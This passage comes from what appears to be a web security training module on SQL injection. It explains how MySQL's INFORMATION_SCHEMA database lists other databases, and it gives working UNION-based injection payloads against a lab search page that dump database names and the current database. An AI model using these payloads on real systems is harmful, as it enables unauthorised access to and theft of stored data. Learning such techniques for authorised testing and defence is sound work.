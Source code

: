 <li>List of columns within each table</li>
</ul>
<p>With the above information, we can form our <code>SELECT</code> statement to dump data from any column in any table within any database inside the DBMS. This is where we can utilize the <code>INFORMATION_SCHEMA</code> Database.</p>
<p>The <a href="https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html">INFORMATION_SCHEMA</a> database contains metadata about the databases and tables present on the server. This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with a <code>SELECT</code> statement. If we only specify a table's name for a <code>SELECT</code> statement, it will look for tables within the same database.</p>
<p>So, to reference a table present in another DB, we can use the dot ‘<code>.</code>’ operator. For example, to <code>SELECT</code> a table <code>users</code> present in a database named <code>my_database</code>, we can use:</p>
<pre><code class="language-sql">SELECT * FROM my_database.users;
</code></pre>
<p>Similarly, we can look at tables present in the <code>INFORMATION_SCHEMA</code> Database.</p>
<hr/>
<h2>SCHEMATA</h2>
<p>To start our enumeration, we should find what databases are available on the DBMS. The table <a href="https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html">SCHEMATA</a> in the <code>INFORMATION_SCHEMA</code> database contains information about all databases on the server. It is used to obtain database names so we can then query them. The <code>SCHEMA_NAME</code> column contains all the database names currently present.</p>
<p>Let us first test this on a local database to see how the query is used:</p>
<pre><code class="language-shell-session">mysql&gt; SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
</code></pre>
<p>We see the <code>ilfreight</code> and <code>dev</code> databases.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.</p>
</div>
</div>
<p>Now, let's do the same using a <code>UNION</code> SQL injection, with the following payload:</p>
<pre><code class="language-sql">cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entries include information_schema, ilfreight, dev, performance_schema, mysql, all with Port City 3 and Port Volume 4" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -" src="/storage/modules/33/ports_dbs.png"/>
<p>Once again, we see two databases, <code>ilfreight</code> and <code>dev</code>, apart from the default ones. Let us find out which database the web application is running to retrieve ports data from.  We can find the current database with the <code>SELECT database()</code> query. We can do this similarly to how we found the DBMS version in the previous section:</p>
<pre><code class="language-sql">cn' UNION select 1,database(),2,3-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entry includes ilfreight, 2, and 3" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION select 1,database(),2,3-- -" src="/storage/modules/33/db_name.jpg"/>